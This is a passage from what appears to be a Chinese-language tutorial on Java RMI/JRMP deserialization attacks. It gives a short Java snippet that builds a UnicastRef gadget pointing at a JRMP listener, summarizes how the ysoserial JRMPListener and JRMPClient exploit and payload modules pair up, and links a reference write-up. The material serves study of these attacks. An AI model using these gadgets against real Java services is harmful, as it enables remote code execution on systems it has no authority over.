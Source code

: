 ![image-20240224130313035](./../.gitbook/assets/image-20240224130313035.png)

随便找一个`RemoteObject`的子类，将`UnicastRef`作为其`ref`属性，接下来和上面的链子一样。对应`ysoserial.payloads.JRMPClient`，不过它是用的`RemoteObjectInvocationHandler`，也就是创建动态代理Stub那一套

```java
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RegistryImpl_Stub stub = new RegistryImpl_Stub(ref);
ser(stub);
```

## Summary

总结一下：

> * exploit
>   * JRMPListner：构造恶意JRMP服务器，返回异常让客户端反序列化 `StreamRemoteCall#executeCall`
>   * JRMPClient：发送恶意序列化数据，打DGC服务 `DGCImpl_Skel#dispatch`
> * payloads
>   * JRMPListner：`UnicastRemoteObject`反序列化时会导出对象，触发JRMP监听端口，配合exploit.JRMPClient打
>   * JRMPClient：`UnicastRef`反序列化时会触发DGC的`ditry`，配合exploit.JRMPListner打

注意到上面的反序列化链子最终触发的还是反序列化，因此JRMP适用于二次反序列化。

后面还有JEP290的RMI绕过，放后面去讲了。

# 0x08 Ref

* https://su18.org/post/rmi-attack 👍

